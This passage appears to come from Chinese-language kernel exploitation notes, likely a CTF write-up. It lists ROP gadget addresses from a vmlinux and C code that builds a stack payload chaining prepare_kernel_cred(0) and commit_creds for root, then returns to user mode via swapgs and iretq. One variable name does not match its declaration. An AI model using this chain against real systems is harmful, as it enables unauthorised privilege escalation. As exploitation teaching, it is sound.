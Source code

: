 - `prepare_kernel_cred(0)`
- `commit_creds()`
- `swapgs;ret`
- 恢复寄存器，`iretq`

寻找gadget

```c
/*
0xffffffff81006370 : pop rdi ; ret
0xffffffff8150b97e : pop rsi ; ret
0xffffffff81007616 : pop rdx ; ret
0xffffffff815f4bbc : pop rcx ; ret
0xffffffff81004d11 : pop rax ; ret
0xffffffff81006158 : pop rbx ; ret
0xffffffff8144591b : pop r13 ; ret
0xffffffff8100636d : pop r12 ; pop r15 ; ret
0xffffffff8100636f : pop r15 ; ret

0xffffffff8100a55f : swapgs ; pop rbp ; ret
0xffffffff8100c0d9:	48 cf                	iretq
0xffffffff8166fea3 : mov rdi, rax ; jne 0xffffffff8166fe73 ; pop rbx ; pop rbp ; ret
0xffffffff8166ff23 : mov rdi, rax ; jne 0xffffffff8166fef3 ; pop rbx ; pop rbp ; ret

0xffffffff816bfe27 : cmp rdi, rsi ; jne 0xffffffff816bfdfa ; pop rbp ; ret
*/
unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rsi_ret = 0xffffffff8150b97e;
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f;
unsigned long iretq = 0xffffffff8100c0d9;
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3;
unsigned long cmp_rdi_rsi_jne_pop_ret = 0xffffffff816bfe27;
```

```bash
$ objdump -j .text -d ./vmlinux | grep iretq | head -1
ffffffff8100c0d9:	48 cf                	iretq 
```

有时ROPgadget找到的gadget并不在可执行区，我们需要再找其他的gadget。

```c
    payload[off++] = canary;
    payload[off++] = 0x0;                 // rbx
    payload[off++] = 0x0;                 // r12
    payload[off++] = 0x0;                 // rbp
    payload[off++] = pop_rdi_ret;         // return address
    payload[off++] = 0x0;                 // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdi_ret;
    payload[off++] = 0x1; // rdi <- 1
    payload[off++] = pop_rsi_ret;
    payload[off++] = 0x1; // rsi <- 1
    payload[off++] = cmp_rdi_rsi_jne_pop_ret;
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0;                      // dummy rbx
    payload[off++] = 0x0;                      // dummy rbp
    payload[off++] = commit_creds;    // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop_ret; // swapgs
    payload[off++] = 0x0;             // dummy rbp
    payload[off++] = iretq;           // iretq frame
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
```